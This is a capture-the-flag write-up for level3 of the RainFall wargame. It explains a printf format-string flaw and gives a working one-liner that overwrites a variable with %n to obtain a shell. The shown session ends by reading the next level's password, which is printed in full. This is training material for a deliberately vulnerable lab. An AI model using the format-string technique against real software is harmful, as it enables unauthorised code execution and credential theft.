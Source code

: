 # level3

## Header

```bash
ssh level3@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

<hr>

## Solution

From the inspecting [disassembled code](./source.s), we can understand that we can use vulnerable `printf` to overwrite the value of `m` variable and make the program execute `/bin/sh`.

```bash
level3@RainFall:~$ echo "zzzz %p %p %p %p %p" | ./level3 
zzzz 0x200 0xb7fd1ac0 0xb7ff37d0 0x7a7a7a7a 0x20702520
```

From these lines we can understand that `zzzz` argument is on `esp + 16` position i.e. it is the 4th argument. <br>
We'll use `%n` in order to write the data to the address of `m` var (`0x0804988c`).

First, we need to upload payload:
```bash
scp -P 4242 ./level3/payload.py level3@192.168.64.9:/tmp/payload3.py

python /tmp/payload3.py
```

This will produce payload file that should be used to exploit the binary:

```bash
level3@RainFall:~$ (python /tmp/payload.py; cat) | ./level3
# or
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" * 16 + "%4$n"'; cat) | ./level3

pwd
/home/user/level3
cd ../level4
ls -la   
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## References
- [OWASP - format string attack](https://owasp.org/www-community/attacks/Format_string_attack)